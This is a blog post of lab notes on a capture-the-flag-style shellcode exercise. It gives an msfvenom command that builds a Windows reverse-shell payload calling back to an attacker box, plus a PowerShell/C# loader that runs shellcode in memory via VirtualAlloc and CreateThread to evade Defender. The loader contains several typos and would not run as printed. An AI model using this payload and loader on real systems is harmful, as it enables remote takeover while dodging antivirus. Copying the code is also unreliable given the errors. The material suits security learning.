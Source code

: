 ```yaml
---
title: Post 68 - My head hurts
date: 2024-12-15
tags:
    - shellcode
    - netcat
---
```

## Task 14, Day 8 `Shellcodes` Shellcodes of the world, unite!  

### Terminology
  - **Shellcode**: Piece of code usually used by malicious actors during exploits like buffer overflow attacks to inject commands into vulnerable systems, often leading to executing arbitrary commands or giving control over a compromised machine. Typically written in assembly language.
  - **PowerShell**: Scripting language and command line shell built into Windows for task automation and config management. Allows interaction with system components. Often used as a post-exploitation tool because of its deep access to system resources and ability to run scripts in memory, avoiding disk-based detection mechanisms.
  - **Windows Defender**: Built-in security feature that can scan code at runtime Common bypasses include obfuscating scripts and refelctive injection, where code is loaded directly into memory avoiding signature based defences.
  - **Windows API**: Allows promgrams to interace with the OS, giving access to system-level functions like memory management, file operations, and networking. Crucial for exploitation because it allows manipulating processes, allocating memory, and executing shell codes. Common functions abused: `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`.
  - **Windows API through PowerShell Reflection**: Advanced technique that enables interfacing with API from PowerShell. Allows calling API functions directly at runtime instead of needing precompiled binaries. Enables manipulation of low-level system processes allowing interaction with the OS and executing code stealthily while bypassing security mechanisms.
  - **Reverse shell**: Shell connection where the target machine initiates the connection to the attacking machine.

### Generating Shellcode
Chosen method for lesson: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attackbox_ip> LPORT=1111 -f powershell`. Shellcode is generated in hex and is run by loading it into memory and creating a thread to execute it. Simple example script to execute the shellcode:  

~~~ c#
$VrtAlloc = @"
using System;
using System.Runtime,InteropServices'

public class VrtAlloc{
    [DllImport("kernal32")] 
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
}
"@ 

Add-Type $VrtAlloc

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
    [DllImport("kernal32.dll", SetLastError=true)] 
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@ 

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
    [DllImport("kernal32", CharSet=CharSet.Ansi)] 
        public statis extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadid);
        
}
"@ 
Add-Type @CrtThread

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[ItrPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
~~~  

#### Explanation of Code
Starts by defining C# classes that use `DllImport` to load functions from the `kernal32` dll in the API.  
  - `VirtualAlloc`: Allocates memory in the process' address space. Commonly used to prepare memory for storing and executing shellcode.
  - `CreateThread`: Creates a new thread in the process that executes the shellcode in the memory.
  - `WaitForSingleObject`: Pauses exectution until a specific thread finishes its task. In this case ensures shellcode has finished running.  

Classes are added to PowerShell via `Add-Type` command.  

Then script stores the shellcode in `$buf` variable, where `SHELLCODE_PLACEHOLDER` = the hex coe from `msfvenom`. `VirtualAlloc` then allocates the block of memory where the shellcode will be stored using the following arguments:  
  - `0` for memory address means Windows can decide the location.
  - `$buf.length` for the size of the memory block bases size on length of the shellcode.
  - `0x3000` for allocation type tells Windows to reserve and commit the memmory.
  - `0x40` for memory protection means memory is readable and executable.  

`Marshal.Copy` then copies the shellcode from `$buf` to the allocated memory address. `CreatThread` then executes the shellcode by creating a new thread. `WaitForSingleObject` then makes sure the shellcode runs completely before the script ends its execution.  

### The Task
Use the shellcode and C# code generated/written earlier to get a remote shell and get the flag. Had a lot of trouble because I couldn't paste into the Windows VM and made a mess of copying the code over by hand, then didn't even want to attempt typing in the hex. Finally realized I could RDP into it with Remminna and the clipboard worked between the two. 

### Recommended Stuff
AV Evasion: Shellcode room
